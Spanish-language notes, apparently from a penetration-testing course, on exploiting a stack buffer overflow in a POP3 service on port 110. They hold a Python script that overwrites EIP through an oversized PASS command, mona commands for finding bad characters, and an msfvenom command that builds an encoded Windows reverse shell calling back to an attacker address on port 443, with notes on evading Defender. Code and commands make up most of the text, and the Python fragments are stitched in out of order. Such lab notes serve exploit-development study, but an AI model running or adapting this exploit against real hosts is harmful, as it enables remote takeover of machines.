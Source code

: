 ```python
payload = before_eip + eip + after_eip


def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

- Compara los bytearrays con ESP y vemos cuáles son los **badchars**
```MONA
!mona compare -a bytesdememoriaESP -f C:\Users\dondehemoscreadoanteselBytearray.bin


!mona bytearray -cpb '\x00\x0a'
```

## Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode

> Creamos shellcode con **msfvenom** excluyendo los bytes que hemos detectado con **mona**

- Emplearemos un encoder polimórfico(encodea varias veces con fin de evadir defender)
1. **-f** es de formato
2. **EXITFUNC** Si ganamos acceso, crea un proceso hijo y mata el hilo padre, para que una vez salga de la consola siga estando operativo y tengamos persistencia

>msfvenom

- Tenemos que apuntar a una dirección que directamente ejecute un salto al **ESP**, buscando una instrucción  de tipo **JUMP ESP**

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=ipAtacante LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
```

``` python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = input("Introduce ua dirección IP: ")
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4

```